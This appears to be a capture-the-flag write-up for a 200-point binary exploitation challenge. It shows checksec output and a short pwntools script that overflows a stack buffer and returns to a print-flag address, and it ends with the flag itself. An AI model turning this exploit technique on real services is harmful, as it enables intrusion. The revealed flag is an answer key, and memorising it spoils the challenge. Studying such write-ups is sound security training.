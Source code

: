 ```yaml
---
ai_date: '2025-04-27 05:25:47'
ai_summary: No PIE and no stack canary allow for buffer overflow exploitation, leading
  to flag retrieval
ai_tags:
- bof
- stack-overflow
- exploitation
created: 2025-03-02T08:49
points: 200
solves: 11
updated: 2025-03-18T02:29
---
```


```bash
$ checksec --file=server
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified  Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        No    0 server
```

- No PIE: Addresses are fixed.
- No Stack Canary: Free-for-all stack smashing.

We should be able to simply return to the print flag part.

```python
from pwn import *

r = remote('localhost', 21504)

offset = 88
flag_addr = 0x40167C

payload = b'A' * offset + p64(flag_addr)
r.sendline(payload)
r.interactive()
```

```flag
ATHACKCTF{0xdeadbeef_5t4ck_8453d_8uff3r_0v3rf10w}
```